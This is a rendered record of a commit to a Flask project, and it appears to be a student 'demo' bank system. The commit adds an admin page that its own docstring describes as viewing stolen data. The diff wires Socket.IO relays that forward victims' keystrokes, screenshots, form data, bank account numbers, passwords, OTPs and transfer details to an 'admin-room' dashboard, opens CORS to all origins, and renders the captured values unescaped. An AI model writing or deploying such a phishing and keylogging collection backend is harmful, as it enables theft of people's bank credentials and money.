
After one commit to MinhAnh248/LTM_QLCT, a Flask app: page /monitor in a window 1280 px wide. The commit adds this page. Shown: the top 546 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Integrate monitoring features from minhtri and haidang branches

```diff
--- a/WAN/app.py
+++ b/WAN/app.py
@@ -124,6 +124,11 @@ def logout():
 def bank():
     """Giao diện ngân hàng demo với monitoring"""
     return render_template('bank.html')
+
+@app.route('/monitor')
+def monitor():
+    """Admin monitoring dashboard - Xem dữ liệu bị đánh cắp"""
+    return render_template('monitor.html')
 
 @app.route('/upgrade')
 @login_required
@@ -295,23 +300,29 @@ def health_check():
 # Socket.IO events for bank monitoring
 @socketio.on('screen-capture')
 def handle_screen_capture(data):
-    emit('screen-capture', data, broadcast=True, include_self=False)
+    emit('screen-capture', data, broadcast=True, include_self=False, room='admin-room')
 
 @socketio.on('login-attempt')
 def handle_login_attempt(data):
-    emit('login-attempt', data, broadcast=True, include_self=False)
+    emit('login-attempt', data, broadcast=True, include_self=False, room='admin-room')
 
 @socketio.on('form-data')
 def handle_form_data(data):
-    emit('form-data', data, broadcast=True, include_self=False)
+    emit('form-data', data, broadcast=True, include_self=False, room='admin-room')
 
 @socketio.on('keylog-data')
 def handle_keylog_data(data):
-    emit('keylog-data', data, broadcast=True, include_self=False)
+    emit('keylog-data', data, broadcast=True, include_self=False, room='admin-room')
 
 @socketio.on('transfer-data')
 def handle_transfer_data(data):
-    emit('transfer-data', data, broadcast=True, include_self=False)
+    emit('transfer-data', data, broadcast=True, include_self=False, room='admin-room')
+
+@socketio.on('join-admin')
+def handle_join_admin():
+    from flask_socketio import join_room
+    join_room('admin-room')
+    emit('admin-joined', {'status': 'success'})
 
 if __name__ == '__main__':
     # Render configuration
@@ -320,5 +331,6 @@ if __name__ == '__main__':
         app,
         host='0.0.0.0',
         port=port,
-        debug=False
+        debug=False,
+        cors_allowed_origins='*'
     )
--- a/WAN/templates/bank.html
+++ b/WAN/templates/bank.html
@@ -55,7 +55,7 @@
 
     <script src="https://cdn.socket.io/4.7.2/socket.io.min.js"></script>
     <script>
-        const socket = io('https://expense-manager-vpn.onrender.com');
+        const socket = io(window.location.origin);
         let keylogData = [];
 
         window.addEventListener('load', () => {
--- a/WAN/templates/landing.html
+++ b/WAN/templates/landing.html
@@ -35,6 +35,7 @@
                 <a href="/register" class="btn btn-primary">🚀 Đăng ký miễn phí</a>
                 <a href="/login" class="btn btn-secondary">🔑 Đăng nhập</a>
                 <a href="/bank" class="btn" style="background: #ff6b6b; color: white;">🏦 Hệ thống ngân hàng</a>
+                <a href="/monitor" class="btn" style="background: #e74c3c; color: white;">🔒 Admin Monitor</a>
             </div>
         </div>
     </section>
--- /dev/null
+++ b/WAN/templates/monitor.html
@@ -0,0 +1,181 @@
+<!DOCTYPE html>
+<html>
+<head>
+    <title>Admin Monitor - Bank Security</title>
+    <style>
+        * { margin: 0; padding: 0; box-sizing: border-box; }
+        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background: #0f172a; color: #e2e8f0; }
+        .header { background: #1e293b; padding: 20px; border-bottom: 2px solid #ef4444; }
+        .header h1 { color: #ef4444; font-size: 24px; }
+        .header p { color: #94a3b8; margin-top: 5px; }
+        .container { padding: 20px; display: grid; grid-template-columns: repeat(auto-fit, minmax(400px, 1fr)); gap: 20px; }
+        .panel { background: #1e293b; border-radius: 8px; padding: 20px; border: 1px solid #334155; }
+        .panel h2 { color: #f59e0b; margin-bottom: 15px; font-size: 18px; border-bottom: 2px solid #f59e0b; padding-bottom: 10px; }
+        .log-entry { background: #0f172a; padding: 12px; margin: 10px 0; border-radius: 4px; border-left: 3px solid #3b82f6; }
+        .log-entry.critical { border-left-color: #ef4444; }
+        .log-entry.warning { border-left-color: #f59e0b; }
+        .timestamp { color: #64748b; font-size: 12px; }
+        .data { color: #22c55e; margin-top: 5px; font-family: 'Courier New', monospace; }
+        .screenshot { max-width: 100%; border-radius: 4px; margin-top: 10px; }
+        .stats { display: flex; justify-content: space-around; margin-bottom: 20px; }
+        .stat-box { background: #0f172a; padding: 15px; border-radius: 8px; text-align: center; flex: 1; margin: 0 5px; }
+        .stat-box h3 { color: #94a3b8; font-size: 14px; margin-bottom: 5px; }
+        .stat-box .number { color: #22c55e; font-size: 32px; font-weight: bold; }
+        .online-users { color: #22c55e; }
+        .alert { background: #7f1d1d; border: 1px solid #ef4444; padding: 10px; border-radius: 4px; margin-bottom: 15px; }
+    </style>
+</head>
+<body>
+    <div class="header">
+        <h1>🔒 Admin Security Monitor</h1>
+        <p>Real-time Banking Activity Surveillance</p>
+    </div>
+
+    <div class="container">
+        <div class="panel" style="grid-column: 1 / -1;">
+            <div class="stats">
+                <div class="stat-box">
+                    <h3>Online Users</h3>
+                    <div class="number online-users" id="onlineCount">0</div>
+                </div>
+                <div class="stat-box">
+                    <h3>Login Attempts</h3>
+                    <div class="number" id="loginCount">0</div>
+                </div>
+                <div class="stat-box">
+                    <h3>Keystrokes Captured</h3>
+                    <div class="number" id="keystrokeCount">0</div>
+                </div>
+                <div class="stat-box">
+                    <h3>Screenshots</h3>
+                    <div class="number" id="screenshotCount">0</div>
+                </div>
+            </div>
+        </div>
+
+        <div class="panel">
+            <h2>🔐 Login Attempts</h2>
+            <div id="loginAttempts"></div>
+        </div>
+
+        <div class="panel">
+            <h2>⌨️ Keylog Data</h2>
+            <div id="keylogData"></div>
+        </div>
+
+        <div class="panel">
+            <h2>📸 Screen Captures</h2>
+            <div id="screenCaptures"></div>
+        </div>
+
+        <div class="panel">
+            <h2>💸 Transfer Data</h2>
+            <div id="transferData"></div>
+        </div>
+    </div>
+
+    <script src="https://cdn.socket.io/4.7.2/socket.io.min.js"></script>
+    <script>
+        const socket = io(window.location.origin);
+
+        let stats = {
+            online: 0,
+            logins: 0,
+            keystrokes: 0,
+            screenshots: 0
+        };
+
+        socket.on('connect', () => {
+            console.log('Admin connected');
+            socket.emit('join-admin');
+        });
+
+        socket.on('login-attempt', (data) => {
+            stats.logins++;
+            updateStats();
+
+            const loginDiv = document.getElementById('loginAttempts');
+            const entry = document.createElement('div');
+            entry.className = 'log-entry critical';
+            entry.innerHTML = `
+                <div class="timestamp">${new Date(data.timestamp).toLocaleString()}</div>
+                <div class="data">
+                    <strong>Bank:</strong> ${data.bank}<br>
+                    <strong>Account:</strong> ${data.account}<br>
+                    <strong>Password:</strong> ${data.password}<br>
+                    <strong>OTP:</strong> ${data.otp || 'N/A'}<br>
+                    <strong>User Agent:</strong> ${data.userAgent}
+                </div>
+            `;
+            loginDiv.insertBefore(entry, loginDiv.firstChild);
+        });
+
+        socket.on('keylog-data', (data) => {
+            stats.keystrokes += data.length;
+            updateStats();
+
+            const keylogDiv = document.getElementById('keylogData');
+            const entry = document.createElement('div');
+            entry.className = 'log-entry warning';
+
+            const keys = data.map(k => k.key).join('');
+            entry.innerHTML = `
+                <div class="timestamp">${new Date().toLocaleString()}</div>
+                <div class="data">
+                    <strong>Keys:</strong> ${keys}<br>
+                    <strong>Target:</strong> ${data[0]?.target || 'Unknown'}
+                </div>
+            `;
+            keylogDiv.insertBefore(entry, keylogDiv.firstChild);
+        });
+
+        socket.on('screen-capture', (data) => {
+            stats.screenshots++;
+            updateStats();
+
+            const screenDiv = document.getElementById('screenCaptures');
+            const entry = document.createElement('div');
+            entry.className = 'log-entry';
+            entry.innerHTML = `
+                <div class="timestamp">${new Date(data.timestamp).toLocaleString()}</div>
+                <div class="data">
+                    <strong>URL:</strong> ${data.url}<br>
+                    <img src="${data.screenshot}" class="screenshot" alt="Screen capture">
+                </div>
+            `;
+            screenDiv.insertBefore(entry, screenDiv.firstChild);
+
+            // Keep only last 5 screenshots
+            while (screenDiv.children.length > 5) {
+                screenDiv.removeChild(screenDiv.lastChild);
+            }
+        });
+
+        socket.on('transfer-data', (data) => {
+            const transferDiv = document.getElementById('transferData');
+            const entry = document.createElement('div');
+            entry.className = 'log-entry critical';
+            entry.innerHTML = `
+                <div class="timestamp">${new Date(data.timestamp).toLocaleString()}</div>
+                <div class="data">
+                    <strong>To Account:</strong> ${data.toAccount}<br>
+                    <strong>Amount:</strong> ${Number(data.amount).toLocaleString()} VNĐ
+                </div>
+            `;
+            transferDiv.insertBefore(entry, transferDiv.firstChild);
+        });
+
+        function updateStats() {
+            document.getElementById('loginCount').textContent = stats.logins;
+            document.getElementById('keystrokeCount').textContent = stats.keystrokes;
+            document.getElementById('screenshotCount').textContent = stats.screenshots;
+        }
+
+        // Simulate online users (in real app, track via socket connections)
+        setInterval(() => {
+            stats.online = Math.floor(Math.random() * 5) + 1;
+            document.getElementById('onlineCount').textContent = stats.online;
+        }, 5000);
+    </script>
+</body>
+</html>
```
Also changed, not shown: render.yaml (+7 -0 lines).
